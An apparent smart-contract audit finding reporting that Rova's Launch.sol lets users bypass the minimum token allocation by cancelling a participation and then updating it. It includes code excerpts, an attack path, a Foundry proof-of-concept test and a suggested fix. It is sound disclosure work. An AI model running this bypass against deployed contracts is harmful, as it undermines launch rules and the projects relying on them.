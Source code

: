 Interesting Fuzzy Hamster

High

# Bypass of Minimum Token Allocation Limits via Participation Cancellation and Update

### Summary

The protocol allows users to [cancel](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L404) existing participations via cancelParticipation and create new participations via [updateParticipation](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L312). A logical flaw in validation checks enables users to bypass the minTokenAmountPerUser constraint by combining these two operations.

### Root Cause

When a user cancels their participation, their total allocated tokens (userTokensByLaunchGroup) are[ reset](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L439) to zero.
```solidity
        EnumerableMap.Bytes32ToUintMap storage userTokens = _userTokensByLaunchGroup[request.launchGroupId];
        (, uint256 userTokenAmount) = userTokens.tryGet(request.userId);
        if (userTokenAmount - info.tokenAmount == 0) {
            // If total tokens requested for user is the same as the cancelled participation, remove user from launch group
>>            userTokens.remove(request.userId);

```

Subsequent calls to [updateParticipation](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L364) do not enforce the [minTokenAmountPerUser](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L368) rule if the user has no prior active participation.

```solidity
            uint256 additionalCurrencyAmount = newCurrencyAmount - prevInfo.currencyAmount;
            // Validate user new requested token amount is within launch group user allocation limits
            if (userTokenAmount + additionalCurrencyAmount > settings.maxTokenAmountPerUser) {
                revert MaxUserTokenAllocationReached(
                    request.launchGroupId, request.userId, userTokenAmount, request.tokenAmount
                );
            }

```
The updateParticipation function fails to validate the  minTokenAmountPerUser when the user has no prior active participation.


### Internal Pre-conditions

The administrator create a new launch group

### External Pre-conditions

1.users [participate ](https://github.com/sherlock-audit/2025-02-rova/blob/fe68ceb7d90693f9be5c7fb94dde130da8d60d9e/rova-contracts/src/Launch.sol#L215)a launch group

2.user [cancelParticipation](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L404)

3.users [update](https://github.com/sherlock-audit/2025-02-rova/blob/fe68ceb7d90693f9be5c7fb94dde130da8d60d9e/rova-contracts/src/Launch.sol#L312) their requested token amount and calculate payment amount.

### Attack Path

Step 1: Legitimate Initial Participation

User A [participates](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L215) with X tokens where X ≥ [minTokenAmountPerUser](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L258) (e.g 1000e18 > 500e18).
userTokensByLaunchGroup[UserA] =1000e18 (valid).

Step 2: Cancellation

User A calls cancelParticipation,[ triggering](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L439):
`userTokens.remove(userId);   // Resets allocation to zero  `

Step 3: Bypass Minimum Allocation

User A calls [updateParticipation](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L312) with Y tokens where Y < minTokenAmountPerUser (e.g Y = 10e18 <500e18).
The system only [checks](https://github.com/sherlock-audit/2025-02-rova/blob/53fb6d71d253676bfbd00926e8f217f40c62d8c5/rova-contracts/src/Launch.sol#L368C13-L368C94):
`if (userTokenAmount + additionalCurrencyAmount > settings.maxTokenAmountPerUser) `


Result: userTokensByLaunchGroup[UserA] = 10e18 (invalid).
Malicious users participated in a launch group at minimal cost

### Impact

Attackers can bypass the minimum token allocation rules, violating project governance and risking underfunding.

### PoC

Path: test/poc.t.sol

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    ParticipationInfo,
    CancelParticipationRequest,
    UpdateParticipationRequest
} from "../src/Types.sol";
import "forge-std/console.sol";
contract LaunchCancelParticipationTest is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;

    function setUp() public {
        _setUpLaunch();

        // Setup initial participation
        settings = _setupLaunchGroup();
        ParticipationRequest memory request = _createParticipationRequest();
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        currency.approve(
            address(launch), _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount)
        );
        launch.participate(request, signature);

        vm.stopPrank();
    }

    function test_CancelParticipation() public {
        // Prepare cancel participation request
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        ParticipationInfo memory info = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(info.tokenAmount, 1000 * 10 ** 18);
        assertEq(info.currencyAmount, 1000 * 10 ** 18);


        vm.startPrank(user1);

        // Expect ParticipationCancelled event
        vm.expectEmit();
        emit ParticipationCancelled(
            cancelRequest.launchGroupId,
            cancelRequest.launchParticipationId,
            cancelRequest.userId,
            user1,
            info.currencyAmount,
            address(currency)
        );

        // Update participation
        launch.cancelParticipation(cancelRequest, cancelSignature);
        vm.stopPrank();

        //  create Update Participation Request with 10e18  
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(10);
    
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.startPrank(user1);
        
        currency.approve(
            address(launch), _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount)
        );

        //  Update participation 
        launch.updateParticipation(updateRequest, updateSignature);
        vm.stopPrank();

        // Verify update
        ParticipationInfo memory newInfo = launch.getParticipationInfo(updateRequest.newLaunchParticipationId);
        assertEq(newInfo.tokenAmount, 1e19);
        //console.log(newInfo.tokenAmount);
        assertEq(newInfo.currencyAmount, 1e19);
        //console.log(newInfo.currencyAmount);

    }

    function _createUpdateParticipationRequest(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "newLaunchParticipationId",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
}



```

### Mitigation

Enforce Minimum Allocation During Updates
```solidity
// In updateParticipation()  
if (newCurrencyAmount > prevInfo.currencyAmount)  {  
   
 ...........................
    require(  
        updatedTotal >= settings.minTokenAmountPerUser,   
        "MinUserTokenAllocationNotReached"  
    );  

...........................
}  


```
